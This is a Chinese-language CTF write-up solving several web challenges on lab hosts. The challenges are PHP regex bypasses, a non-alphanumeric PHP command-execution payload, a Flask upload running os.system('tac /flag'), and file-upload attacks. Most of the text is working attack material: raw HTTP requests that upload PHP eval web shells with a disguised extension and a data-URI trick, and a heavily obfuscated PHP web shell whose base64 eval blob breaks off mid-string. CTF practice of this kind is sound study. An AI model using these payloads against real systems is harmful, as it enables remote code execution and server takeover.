code=%24_%3D%28_%2F_._%29%5B_%5D%3B%24_%2B%2B%3B%24__%3D%24_.%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__%3D%24__.%24_%3B%24_%2B%2B%3B%24__%3D%24__.%24_%3B%24_%3D_.%24__%3B%24%24_%5B_%5D%28%24%24_%5B__%5D%29%3B&_=system&__=tac+%2Ff*
```

这里要编码不然总有地方不对

# No one knows regex better than me

```php
<?php 
error_reporting(0);
$zero=$_REQUEST['zero'];
$first=$_REQUEST['first'];
$second=$zero.$first;
if(preg_match_all("/Yeedo|wants|a|girl|friend|or|a|flag/i",$second)){
    $key=$second;
    if(preg_match("/\.\.|flag/",$key)){
        die("Noooood hacker!");
    }else{
        $third=$first;
        if(preg_match("/\\|\056\160\150\x70/i",$third)){
            $end=substr($third,5);
            highlight_file(base64_decode($zero).$end);//maybe flag in flag.php
        }
    }
}
else{
    highlight_file(__FILE__);
}
```

就一点正则而已，不过这是个特性问题

```php
<?php
$third="fdaf|.php";
if(preg_match("/\\|\056\160\150\x70/i",$third)){
    $end=substr($third,5);
    echo "yes\n";
    echo $end;
}
```

```
http://114.67.175.224:19193/?zero=ZmxhZw==&first=abcd|.php
```

# 字符？正则？

```php
<?php 
highlight_file('2.php');
$key='flag{********************************}';
$IM= preg_match("/key.*key.{4,7}key:\/.\/(.*key)[a-z][[:punct:]]/i", trim($_GET["id"]), $match);
if( $IM ){ 
  die('key is: '.$key);
}
?>
```

- **`key`**: 字符串 `key`。
- **`.\*`**: 匹配任意字符（除了换行符），0 次或多次。
- **`key.{4,7}`**: `key` 后跟 4 至 7 个任意字符。
- **`key:\/.`**: 字符串 `key:/`，其中的 `/` 被转义。
- **`/(.\*key)`**: 匹配一个斜杠 `/`，后面跟着任意字符，直到 `key` 字符串。
- **`[a-z]`**: 匹配一个小写字母。
- **`[[:punct:]]`**: 匹配一个标点符号。
- **`i`**: 表示不区分大小写的匹配。

这个看着头有点晕啊

```
key.*key.{4,7}key:\/.*\/(.*key)[a-z][[:punct:]]

http://114.67.175.224:15541/?id=keyaaakeyaaaaakey:/a/akeya,
```



# Flask_FileUpload

Python的文件上传

```
import os
os.system('tac /flag')
```

写成png就可以了 

# xxx二手交易市场

这里还是打一个上传文件，注册登录之后上传头像，发现是进行了base64解密的并且这里使用的是data协议来上传，

```http
POST /user/upload HTTP/1.1
Host: 114.67.175.224:10308
Content-Length: 64
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://114.67.175.224:10308
Referer: http://114.67.175.224:10308/User
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; _ga=GA1.1.1320821268.1731844587; _gid=GA1.1.1851908107.1731844587; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; PHPSESSID=uukfhesjl5h1t0mvdch88ome03; flag=flag%7B67e7bb4eb5eee5456d01992aeb60ac21%7D
Connection: close

image=data:image/php;base64,PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7Pz4=
```

# 文件上传

一直测去吧，后面发现可以混淆后缀

```http
POST /index.php HTTP/1.1
Host: 114.67.175.224:12453
Content-Length: 302
Cache-Control: max-age=0
Origin: http://114.67.175.224:12453
Content-Type: Multipart/form-data; boundary=----WebKitFormBoundaryWYvSV2LGFvAww1eP
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://114.67.175.224:12453/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; _ga=GA1.1.1320821268.1731844587; _gid=GA1.1.1851908107.1731844587; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; PHPSESSID=uukfhesjl5h1t0mvdch88ome03; flag=flag%7B67e7bb4eb5eee5456d01992aeb60ac21%7D
Connection: close

------WebKitFormBoundaryWYvSV2LGFvAww1eP
Content-Disposition: form-data; name="file"; filename="1.php4"
Content-Type: image/png

<?php eval($_POST[a]);?>
------WebKitFormBoundaryWYvSV2LGFvAww1eP
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryWYvSV2LGFvAww1eP--

```

主要就是这个细节

1. **Multipart/form-data**:
   - 表示请求体是以多部分形式编码的。这种编码方式通常用于表单上传文件或包含文件和其他字段的复杂数据。

# getshell

```php
<?php
define('pfkzYUelxEGmVcdDNLTjXCSIgMBKOuHAFyRtaboqwJiQWvsZrPhn', __FILE__);
$cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ = urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$BwltqOYbHaQkRPNoxcfnFmzsIjhdMDAWUeKGgviVrJZpLuXETSyC = $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{3} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{6} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{33} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{30};
$hYXlTgBqWApObxJvejPRSdHGQnauDisfENIFyocrkULwmKMCtVzZ = $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{33} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{10} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{24} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{10} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{24};
$vNwTOsKPEAlLciJDBhWtRSHXempIrjyQUuGoaknYCdFzqZMxfbgV = $hYXlTgBqWApObxJvejPRSdHGQnauDisfENIFyocrkULwmKMCtVzZ{0} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{18} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{3} . $hYXlTgBqWApObxJvejPRSdHGQnauDisfENIFyocrkULwmKMCtVzZ{0} . $hYXlTgBqWApObxJvejPRSdHGQnauDisfENIFyocrkULwmKMCtVzZ{1} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{24};
$ciMfTXpPoJHzZBxLOvngjQCbdIGkYlVNSumFrAUeWasKyEtwhDqR = $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{7} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{13};
$BwltqOYbHaQkRPNoxcfnFmzsIjhdMDAWUeKGgviVrJZpLuXETSyC.= $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{22} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{36} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{29} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{26} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{30} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{32} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{35} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{26} . $cPIHjUYxDZVBvOTsuiEClpMXAfSqrdegyFtbnGzRhWNJKwLmaokQ{30};
eval($BwltqOYbHaQkRPNoxcfnFmzsIjhdMDAWUeKGgviVrJZpLuXETSyC("JE52aXV5d0NlUFdFR2xhY0FtZmpyZ0JNVFlYekhacEl4RHFRbnNVS2tob3RGU09SZFZKTGI9IldBckllVEJFWFBaTlN0b3ppZ2hmcENPUlV2S0x5eFFubXdsR2NqYVZiRGtGdUpZZHNNSHF1d1dBZW1NVWhRb0NMYURma0Z4VEtsenRCWHJkT2liSEpqeU52WVNQcGNzSVpFR1JnblZxUWM5alNWd0ZvTlBKU3U1eXJsUjZTMkNzcHV5TlBJb3JMSUk1dnU5RFJVYU9wSHhmbVZSSmIwdGpQQnlvU3lFSXVzRUNQMmlidVU5MlJCNUhCMkV4b0JJVkVPaWpvSmE2dVBQeXBWeEl0MjF1RzJ0VW1zaUJTeXhjQjB5SG1CRWRtM1BBYkJvNUJIdHhHSjlpUjBLS0JQUjJ2MUtPQk54WnJtZ3NieW96R3NDWVNKOWlHdTUxdnlJeVNVeUh0QjlhbVVSU21QUDZlUHQ0QlZDMFMzUk1SSm9qQjBhTHVOaXJTdXRodFVvb0xjMTF2Smlzb3VDWG9OQkRBa0IydG1VeUMwVXlDWUF5bnNHeUNzYnlDWVUxRW1QY0VtdjJFbXYwbmxCMnptQTRFbUVVRW12akVtdjRFbXYxRW12aUVtdjVFbUVNQ2tCMmJPQjNua0IyYmtCMkNsQjJDZnN5Q0JHeUNZQnlDWUZ5Q1lueUNmbnlDZnZ5Q3NHMEVtRWxFbUcybmZ2eUNzVWtybWdzR2h5enZ1NXlwM0VVTFZ4TmJ5QzNHMGFEbU5LckJWdFFTQkNKdUJJSHVIb2twSXhQQnl0aFBKMWp0QjF0dDJhNkx1dGZSbTBzYnlvekdzQ1lTSjlpR3U1MXZ5SXlTVXlIdEI5YW1VUlNtUFA2ZVB0NEJWQzBTM1JNUkpvakIwYUx1TmlyU3V0aHRVb29MVmdmVEw0c2J5b3pHc0NZU0o5aUd1NTF2eUl5U1V5SHRCOWFtVVJTbVBQNmVQdDRCVkMwUzNSTVJKb2pCMGFMdU5pclN1dGh0VW9vTFZnMlRMNHNieW96R3NDWVNKOWlHdTUxdnlJeVNVeUh0QjlhbVVSU21QUDZlUHQ0QlZDMFMzUk1SSm9qQjBhTHVOaXJTdXRodFVvb0xWZ2ZuMzBaRVVFdW1KRWNHMktYdnVJWlJoRXRvdXhFbzBQUXBCaVZ1czFQZUh5QmVJTWZSTmEzYmhvSnZJQ2RCeXhnTEp5c1AwdE51Qng3bmZNOXpPdG90MUtBUkp5amIzUDZtMW9pdnlSQkJCb2dvSHlsTGh0YnYyeGtHM3h5THMxZEdCUEdwMjEzQkpSWlB1YW1vVUlubXN0cVFMdGxQczVrYjJDcXAzSXhwSFBPQnVQREx1UkltMjFudDFLQ1BoSzVQVnhidjN0V1IwSTJvSE1tTDFFR3BVS0tvSVJVdHl5QWVmbmZUTDRzYnlvekdzQ1lTSjlpR3U1MXZ5SXlTVXlIdEI5YW1VUlNtUFA2ZVB0NEJWQzBTM1JNUkpvakIwYUx1TmlyU3V0aHRVb29MVmdpblYwWkVVRXVtSkVjRzJLWHZ1SVpSaEV0b3V4RW8wUFFwQmlWdXMxUGVIeUJlSU1mUk5hM2Job0p2SUNkQnl4Z0xKeXNQMHROdUJ4N25ZdDlka3RsUHM1a2IyQ3FwM0l4cEhQT0J1UERMdVJJbTIxbnQxS0NQaEs1UFZ4YnYzdFdSMEkyb0hNbUwxRUdwVUtLb0lSVXR5eUFlZlVqVEw0c2J5b3pHc0NZU0o5aUd1NTF2eUl5U1V5SHRCOWFtVVJTbVBQNmVQdDRCVkMwUzNSTVJKb2pCMGFMdU5pclN1dGh0VW9vTFZnT0NWMDdFSXRzdlUxclMyeEd0aElTbUpDYkdoeGtlQmFodDNLdVJOUEhCdTVPdUJpUXRKeTFTc3RjcEJ4THBWUk1iSjlQTGhvbXYyRzlFSXlWdXN4MlNoTWNSaEtRUEhJT1AxdHR0SmlKZUJFRVJJTWZTTkVZZU5Qcm1CYXh0UHhYcGhSTG8yNVBTMUNzYkJpenROSzduVjBaRVVFdW1KRWNHMktYdnVJWlJoRXRvdXhFbzBQUXBCaVZ1czFQZUh5QmVJTWZSTmEzYmhvSnZJQ2RCeXhnTEp5c1AwdE51Qng3bm14OWRrdGxQczVrYjJDcXAzSXhwSFBPQnVQREx1UkltMjFudDFLQ1BoSzVQVnhidjN0V1IwSTJvSE1tTDFFR3BVS0tvSVJVdHl5QWVmQzlka3RvdDFLQVJKeWpiM1A2bTFvaXZ5UkJCQm9nb0h5bExodGJ2MnhrRzN4eUxzMWRHQlBHcDIxM0JKUlpQdWFtb1VJbm1zdHFlZk05ZGt0b3QxS0FSSnlqYjNQNm0xb2l2eVJCQkJvZ29IeWxMaHRidjJ4a0czeHlMczFkR0JQR3AyMTNCSlJaUHVhbW9VSW5tc3RxZWZJOWRrdGxQczVrYjJDcXAzSXhwSFBPQnVQREx1UkltMjFudDFLQ1BoSzVQVnhidjN0V1IwSTJvSE1tTDFFR3BVS0tvSVJVdHl5QWVmQTBUbWdzdjNLeUcyMW9SdUlPcFZ4TlBCeWhldTlrUk5vWm1VNXJCUHRjdFZvYlMxb210MHhIdFBLS3VOeFFtQmEzdlVFc2J1S2lCWTBzYnlvekdzQ1lTSjlpR3U1MXZ5SXlTVXlIdEI5YW1VUlNtUFA2ZVB0NEJWQzBTM1JNUkpvakIwYUx1TmlyU3V0aHRVb29MVmczVEw0c2J5b3pHc0NZU0o5aUd1NTF2eUl5U1V5SHRCOWFtVVJTbVBQNmVQdDRCVkMwUzNSTVJKb2pCMGFMdU5pclN1dGh0VW9vTFZnaW4zMDdFTkk1bUhJWm91OU90VXg0dHNFbVIyQ2RTVWlxTHlNMG0yeWNveXlNbzFLMkdKaUdQUEVCUDFvYXZVUENCQlJXZXN5c3YzQlpRTHRsUHM1a2IyQ3FwM0l4cEhQT0J1UERMdVJJbTIxbnQxS0NQaEs1UFZ4YnYzdFdSMEkyb0hNbUwxRUdwVUtLb0lSVXR5eUFlZkFPVEw0c2J5b3pHc0NZU0o5aUd1NTF2eUl5U1V5SHRCOWFtVVJTbVBQNmVQdDRCVkMwUzNSTVJKb2pCMGFMdU5pclN1dGh0VW9vTFZnZkNIMFpFVUV1bUpFY0cyS1h2dUlaUmhFdG91eEVvMFBRcEJpVnVzMVBlSHlCZUlNZlJOYTNiaG9KdklDZEJ5eGdMSnlzUDB0TnVCeDduWXk5ZGt0bFBzNWtiMkNxcDNJeHBIUE9CdVBETHVSSW0yMW50MUtDUGhLNVBWeGJ2M3RXUjBJMm9ITW1MMUVHcFVLS29JUlV0eXlBZWZBMlRMNHNieW96R3NDWVNKOWlHdTUxdnlJeVNVeUh0QjlhbVVSU21QUDZlUHQ0QlZDMFMzUk1SSm9qQjBhTHVOaXJTdXRodFVvb0xWZ2ZuVjBaRVVFdW1KRWNHMktYdnVJWlJoRXRvdXhFbzBQUXBCaVZ1czFQZUh5QmVJTWZSTmEzYmhvSnZJQ2RCeXhnTEp5c1AwdE51Qng3bmZFOWRrdGxQczVrYjJDcXAzSXhwSFBPQnVQREx1UkltMjFudDFLQ1BoSzVQVnhidjN0V1IwSTJvSE1tTDFFR3BVS0tvSVJVdHl5QWVmbjFUTDRzYnlvekdzQ1lTSjlpR3U1MXZ5SXlTVXlIdEI5YW1VUlNtUFA2ZVB0NEJWQzBTM1JNUkpvakIwYUx1TmlyU3V0aHRVb29MVmdPQ0gwWkVVRXVtSkVjRzJLWHZ1SVpSaEV0b3V4RW8wUFFwQmlWdXMxUGVIeUJlSU1mUk5hM2Job0p2SUNkQnl4Z0xKeXNQMHROdUJ4N25mTTl6MlAyR3VqREVOSTVtSElab3U5T3RVeDR0c0VtUjJDZFNVaXFMeU0wbTJ5Y295eU1vMUsyR0ppR1BQRUJQMW9hdlVQQ0JCUldlc3lzdjNCREFzS0l1czl4TElLeEJZTWpweW9ndHlva3VWTTVHMFI0dlBLR3RIRUJudWl6UG1NZ1NQb0FCSG9ZblZ0Q0J1NURCMUdPdHN5eFBCNXFCeVBMblBLTlNVRXNuQkExdUowMHpCeWd2VlB5cHlLNUJzUnVleUNocFU1a1BCb2RQQlB6bklvWmJ5eXNuQjVMQllFTnYxb1BlTjl1bll5V29QUnp0MUV1Qll0U251aml1dWlyYjFDSVJJTXhuY1BpdUo1TmV5eXVMc2F5UEppNFBjTTBTeW9HTEh0dW5VR09Hc1JycHlLV25QSUxTMngyb2NDTHAySWd1SmF4UHlFckcwb0RiMUVoQ1BFaHBITUJQVXh1TE5Vam1zUFNQbUIwQlBvV0NQdGh6bUlrUGZQbFB1S3R6QnlxUk5pc3BCb2ZMMENZZDFNS0czUHJ0MEcxUE41TlJQS2h6aHlMdHVGMEJKYXJQTmJPbXNpeHRoeGlCMmlsbkliT3BVdFNwTmlsdVlJam55eWFlSXl1UHNLUFBZSVNSTkNJUHM1UFB1dE9vdWFnUzJuZlB1OXJ0SmlBUDJhRG5KSUdic3RzdVZNYlBKNU5lUEdpQnlFTHBoeGFvUFByTEp0TmJIS3h0MEtxb0JSdUwxdFBSTnhMUEp4Mkd5eHNCMURPQ1BveG5CNVdCUFA0bTFFVnAyOXJ0eUVXRzBCaUwyVU9TSXlMdVVveFBOMXpCUHlHU055eVBodEdCWUNqUDJ0VlBKNVBQZlA1UDFQNEJJRWFwY0l4UzFFVUd5UERCMkVBb1VFdHBteXVCMXhTUE5uT3V1OXJ0UEtRR0J4U0dQQWp2TjV1cFVvdUd5eGpldUNWZVZJU3VVb09QY0lnbXlCanBOeXVMSUUyR2ZNMG1QSVpTSUN1bnNvRUdQUHpTeUVQQllJU3RKeGxvY0lsQ1BLYUNWQ3JMVTQydXlSelJJUkdQSnhZcGhGMEJKaXVMeUdmcFZvb3B5RWFHSmE0bTFDZ3R5UHRuSUFPUEJSMFAxQmpvVXlTbklveEdQb0RwMWJqbkJpc24wRWN1c1BOdnVDdUxoSUNTdWFmTHNvTFMyQ0luQmF4bkp4b0J5eE5HUHRhbXlJb3VOeEtvUFAwdUlBZnZJUnN0MW9aUFB2MWVQUlBlSU1McHVqaUd1YUx0TkVQU0lDa0xOdGxCdTA1UHlDR3V5dFlueXlYTHNQU20ySUF1SklMblZNWlBKaU5QSkVHdlZ5WXQzeGl1eXhOdnliaXBVNVBuTmlLUHN4TFJKbmpSVTF0cEp4bVBZRU5MdUlQbUpLTFBQQWl1c29EYkpiaWJZUFNwbXRmTHN4ekN5S2htSHRodUlvREcyMTRDSUVnUHNLdW4yaTJ1dTVMcHVFV2VVOW1wVW9QQm1NTG55UFZSSVJQbk50RXVZTXVHdUl1U045Qm5jSW5vY0NsYjFLSXRISVlQc3lmTHN4ekN5S2htSHRodUlvREcyMTRDSUVnUHNLdW4yaTJ1dTVMcHVFV2VVOW1wVW9QQm1NTG55UFZSSVJQbk50RXVZTXVHdUl1U045Qm5jSW5vY0NsYjFLSXRISVlQc3lqbVVDTFBQS0FiczVtcGh0WFAwUHVlSVJXQ3VLUHQwRzB1dTVnbUlHam9jb3VweUVndVlJTlJ1Q2dwVTFCbklLam9JUmp0UFVPbkJ5UHBoRmZCUFByUnlvUHBjRVBuMDVhTDBDTHQxdGFTY0VoUzJ0ZHVZSVNCeW9obm1vWXBzRWZHdTF1ZU5VanpQS0JQczVydXVpTG5OQWZtc2lCdEJEMFB1aXNTSUNWcFV0b25Jb0lvSVJMdVBJR29JSXlQMUsxbVV0TXYwS0FtWW9TUDA1MFAxeHVTTkNhZWN0THBJb3JQWUNnUnl5WkJKMWtTM3hRQjJpTlBQVWpCWUVQdDN0aFBtTXNMUERqUEpJeFBKeFhQY3dpbU5iZmJzQ1N0Qm9pRzFvRXZVYW1TM01RUmYwOUFrc0t6ZjgrUWM5alNWd0ZvTlBKU3U1eXJsUlpTeW81djBFU1JIeE9tTmFOdXV0enAyb1lvMFIxR2hSVUxKRWd2VTltQkJQQUJ5UGFMMnlNU1ZLRWIyUDBCVTFpdUlSQkVPaWpvSmE2dVBQeXBWeEl0MjF1RzJ0VW1zaUJTeXhjQjB5SG1CRWRtM1BBYkJvNUJIdHhHSjlpUjBLS0JQUjJ2MUtPQk54WnJtZ3NtMmladE5hNm1KUGlSSktkcFB5RG1CRUVCM3hyYjNQU295SUxSMGloTFVSTnYzdFBHMElYdUlvNXZKRUt0UHRiR3V0SHZjMTF2Smlzb3VDWG9OQkRBa0IydG1VeUMwVXlDWUF5bnNHeUNzYnlDWVUxRW1QY0VtdjJFbXYwbmxCMnptQTRFbUVVRW12akVtdjRFbXYxRW12aUVtdjVFbUVNQ2tCMmJPQjNua0IyYmtCMkNsQjJDZnN5Q0JHeUNZQnlDWUZ5Q1lueUNmbnlDZnZ5Q3NHMEVtRWxFbUcybmZ2eUNzVWtybWdzTE5FR29WdFZQdWF5dEJ0Z0JKUmpSM0N4dkpvWlB5eVhQSUNkTHVDYlJKeGNQMktsU2hLdG1JSzR0czExZXUxTW1ISXJtZjBzbTJpWnROYTZtSlBpUkpLZHBQeURtQkVFQjN4cmIzUFNveUlMUjBpaExVUk52M3RQRzBJWHVJbzV2SkVLdFB0Ykd1dEh2VmdmVEw0c20yaVp0TmE2bUpQaVJKS2RwUHlEbUJFRUIzeHJiM1BTb3lJTFIwaWhMVVJOdjN0UEcwSVh1SW81dkpFS3RQdGJHdXRIdlZnMlRMNHNtMmladE5hNm1KUGlSSktkcFB5RG1CRUVCM3hyYjNQU295SUxSMGloTFVSTnYzdFBHMElYdUlvNXZKRUt0UHRiR3V0SHZWZ2ZuMzBaRVU5Z3BzdFdlczV5dmhvcUwyMW9TVTFsTFBDNExzQzF1Sm90QkhSblAweFZ0SEMwUHVDTXAxeHVlaEVrU0JQQkJOSXNvM003bmZNOXpPdEVwMkN5YjI1aVBzYVF0SmFPcElFcVBQTUlvVTVEYmhQbW1CS2xlSjFWUnl0bmVodEt2MlJqdXl5a0JQeEFvc3QzUDN4eFFMdFFwTjVVUzNLem9oSTJTc2FhdXV4Q2JzeW1lVUtjUlBLSkJQRTNtSVJBdDBvZlJJUFlidTlHUEh5T0dKeUlQSU14b05SamVmbmZUTDRzbTJpWnROYTZtSlBpUkpLZHBQeURtQkVFQjN4cmIzUFNveUlMUjBpaExVUk52M3RQRzBJWHVJbzV2SkVLdFB0Ykd1dEh2VmdpblYwWkVVOWdwc3RXZXM1eXZob3FMMjFvU1UxbExQQzRMc0MxdUpvdEJIUm5QMHhWdEhDMFB1Q01wMXh1ZWhFa1NCUEJCTklzbzNNN25ZdDlka3RRcE41VVMzS3pvaEkyU3NhYXV1eENic3ltZVVLY1JQS0pCUEUzbUlSQXQwb2ZSSVBZYnU5R1BIeU9HSnlJUElNeG9OUmplZlVqVEw0c20yaVp0TmE2bUpQaVJKS2RwUHlEbUJFRUIzeHJiM1BTb3lJTFIwaWhMVVJOdjN0UEcwSVh1SW81dkpFS3RQdGJHdXRIdlZnT0NWMDdFVXRZR0h5Ym1ITW9CMGExdEJDMm91YUVQeUtnbTFJTlBVMTNvMXhLcHNJSkd1OUFvVktpU1VSaEJIRW52MjFyYkpLUFJWRjlFVXlYRzJQY3BISXVMMDlOUzNFZ0JKS1BCVVBzbUp4TVJQQ0NMc0U2cEJSMlBVaTVSTnlmbzNNU3V1RXR1VXhKdFZSaGVOSTduVjBaRVU5Z3BzdFdlczV5dmhvcUwyMW9TVTFsTFBDNExzQzF1Sm90QkhSblAweFZ0SEMwUHVDTXAxeHVlaEVrU0JQQkJOSXNvM003bm14OWRrdFFwTjVVUzNLem9oSTJTc2FhdXV4Q2JzeW1lVUtjUlBLSkJQRTNtSVJBdDBvZlJJUFlidTlHUEh5T0dKeUlQSU14b05SamVmQzlka3RFcDJDeWIyNWlQc2FRdEphT3BJRXFQUE1Jb1U1RGJoUG1tQktsZUoxVlJ5dG5laHRLdjJSanV5eWtCUHhBb3N0M1AzeHhlZk05ZGt0RXAyQ3liMjVpUHNhUXRKYU9wSUVxUFBNSW9VNURiaFBtbUJLbGVKMVZSeXRuZWh0S3YyUmp1eXlrQlB4QW9zdDNQM3h4ZWZJOWRrdFFwTjVVUzNLem9oSTJTc2FhdXV4Q2JzeW1lVUtjUlBLSkJQRTNtSVJBdDBvZlJJUFlidTlHUEh5T0dKeUlQSU14b05SamVmQTBUbWdzUzJDM0wyRW1vMnhoU2hLb3RoUE10MHRRUFVveExJeHRCSHRabVZ5bHBVS2piMHlhb3VLZnZzNTJ1SEliUFBvNG9zMXNwZjBzbTJpWnROYTZtSlBpUkpLZHBQeURtQkVFQjN4cmIzUFNveUlMUjBpaExVUk52M3RQRzBJWHVJbzV2SkVLdFB0Ykd1dEh2VmczVEw0c20yaVp0TmE2bUpQaVJKS2RwUHlEbUJFRUIzeHJiM1BTb3lJTFIwaWhMVVJOdjN0UEcwSVh1SW81dkpFS3RQdGJHdXRIdlZnaW4zMDdFVXhrdU50MHQxUFdvQlBVcElFSHZWUmZHaEVKcHlvb3AxdG1MMHlZQlZvRGIxUnFiSnk2QkJpU2VVb0NSaHlhYkI1aUxzOFpRTHRRcE41VVMzS3pvaEkyU3NhYXV1eENic3ltZVVLY1JQS0pCUEUzbUlSQXQwb2ZSSVBZYnU5R1BIeU9HSnlJUElNeG9OUmplZkFPVEw0c20yaVp0TmE2bUpQaVJKS2RwUHlEbUJFRUIzeHJiM1BTb3lJTFIwaWhMVVJOdjN0UEcwSVh1SW81dkpFS3RQdGJHdXRIdlZnZkNIMFpFVTlncHN0V2VzNXl2aG9xTDIxb1NVMWxMUEM0THNDMXVKb3RCSFJuUDB4VnRIQzBQdUNNcDF4dWVoRWtTQlBCQk5Jc28zTTduWXk5ZGt0UXBONVVTM0t6b2hJMlNzYWF1dXhDYnN5bWVVS2NSUEtKQlBFM21JUkF0MG9mUklQWWJ1OUdQSHlPR0p5SVBJTXhvTlJqZWZBMlRMNHNtMmladE5hNm1KUGlSSktkcFB5RG1CRUVCM3hyYjNQU295SUxSMGloTFVSTnYzdFBHMElYdUlvNXZKRUt0UHRiR3V0SHZWZ2ZuVjBaRVU5Z3BzdFdlczV5dmhvcUwyMW9TVTFsTFBDNExzQzF1Sm90QkhSblAweFZ0SEMwUHVDTXAxeHVlaEVrU0JQQkJOSXNvM003bmZFOWRrdFFwTjVVUzNLem9oSTJTc2FhdXV4Q2JzeW1lVUtjUlBLSkJQRTNtSVJBdDBvZlJJUFlidTlHUEh5T0dKeUlQSU14b05SamVmbjFUTDRzbTJpWnROYTZtSlBpUkpLZHBQeURtQkVFQjN4cmIzUFNveUlMUjBpaExVUk52M3RQRzBJWHVJbzV2SkVLdFB0Ykd1dEh2VmdPQ0gwWkVVOWdwc3RXZXM1eXZob3FMMjFvU1UxbExQQzRMc0MxdUpvdEJIUm5QMHhWdEhDMFB1Q01wMXh1ZWhFa1NCUEJCTklzbzNNN25mTTl6MlAyR3VqREVVeGt1TnQwdDFQV29CUFVwSUVIdlZSZkdoRUpweW9vcDF0bUwweVlCVm9EYjFScWJKeTZCQmlTZVVvQ1JoeWFiQjVpTHM4REFzS0lTTjFzUHM1WlBJUHJCTlBWU1Zvc3BzRGpHSjBpdUpQYVJJb0xuSUtOUDI1enZJRU5TY1BtUzJpZnV1YTB0SUdPdlZSdVMzeHRQc3hzU0pDaFBKeEJTMG9tdXNvSXpCeWdvY010bjJ4NkcxUHVuUHRJQ1BQUG5OdG1HbUlTcFBSV1JVeXhwSW9TUEJQZ1J5RE9DQkN4UFBLWEcyMXJDUGJpU054b25Vb2dHc3ZpbjJDSX